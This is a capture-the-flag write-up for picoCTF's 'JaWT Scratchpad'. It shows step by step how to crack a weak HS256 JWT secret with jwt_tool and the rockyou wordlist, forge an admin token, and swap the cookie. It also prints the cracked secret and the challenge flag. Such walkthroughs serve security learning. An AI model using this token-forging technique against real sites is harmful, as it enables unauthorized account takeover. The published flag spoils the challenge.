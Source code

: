 # JaWT Scratchpad - Points: 400

## Problem

> Check the admin scratchpad! ```https://2019shell1.picoctf.com/problem/32267/``` or http://2019shell1.picoctf.com:32267

## Hints

> What is that cookie?

> Have you heard of JWT?

## Overview

Let's connect to the provided website

Navigating to the vulnerable website, the first thing a norm would do is to check the source code. Unfortunately, there's nothing seems to be suspicious.  

There's a box where you can actually enter your own chosen username. If we tried to login as ```admin```, we'll get an error like this
```html
<p style="color:red">
       YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.
</p>
```
However, logging in as another user is allowed. I used ```ch3llist4``` as my username. Now we can start exploiting the cookie.

## Solutions

I decided to use the same [online extension](http://www.editthiscookie.com/) as I did on **Open-to-admins** challenge for checking and editing the site cookies.

As expected, I saw a cookie named ```jwt``` with the value ```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8```. This should be the JSON token that got already encoded using ```base64```

Use this [website](https://jwt.io/) which is provided as a hint in their source code. We can extract the information out of it.
```
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "user": "ch3llist4"
}
```
As I read on the [wiki](https://en.wikipedia.org/wiki/JSON_Web_Token)

The signature part which is the last part after ```.``` is calculated by encoding the header and payload using [Base64url Encoding](https://en.wikipedia.org/wiki/Base64#URL_applications) and concatenating the two together with a period separator. That string is then run through the cryptographic algorithm specified in the header...
```
HMAC-SHA256(
 base64urlEncoding(header) + '.' +
 base64urlEncoding(payload),
 secret
)
```
So far as i know, we need to somehow get their secret code used in the signature part to generate a new JWT and then we can use that to exploit the website.

I actually didn't use John as the John process for bruteforcing JWT specifically is a little bit more complicated. Instead, I used this [tool](https://github.com/ticarpi/jwt_tool) 

```
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8 ../JohnTheRipper/run/rockyou.txt

,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
----''----''----''----''----''----''----''----''----''----'
     ,--.,--.   ,--.,--------.,--------.             ,--.
     |  ||  |   |  |'--.  .--''--.  .--',---.  ,---. |  |
,--. |  ||  |.'.|  |   |  |      |  |  | .-. || .-. ||  |
|  '-'  /|   ,'.   |   |  |,----.|  |  ' '-' '' '-' '|  |
 `-----' '--'   '--'   `--''----'`--'   `---'  `---' `--'
,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
'----''----''----''----''----''----''----''----''----''----'

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = ch3llist4

######################################################
# Options:                                           #
# 1: Check CVE-2015-2951 - alg=None vulnerability    #
# 2: Check for Public Key bypass in RSA mode         #
# 3: Check signature against a key                   #
# 4: Check signature against a key file ("kid")      #
# 5: Crack signature with supplied dictionary file   #
# 6: Tamper with payload data (key required to sign) #
# 0: Quit                                            #
######################################################

Please make a selection (1-6)
> 5

Loading key dictionary...
File loaded: ../JohnTheRipper/run/rockyou.txt
Testing 14344380 passwords...
[+] ilovepico is the CORRECT key!
```
Now we know that the secret is ilovepico. Let's use it to generate the new token using the previous website. We change ```ch3llist4``` to ```admin``` for the unauthorized access.

This token is perfect for exploiting now
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
Change the cookie value to the token and we're good. All we need to do left is reload the page and enjoy the flag..

flag:
```
picoCTF{jawt_was_just_what_you_thought_6ba7694bcc36bdd4fdaf010b2ec1c2c3}
```

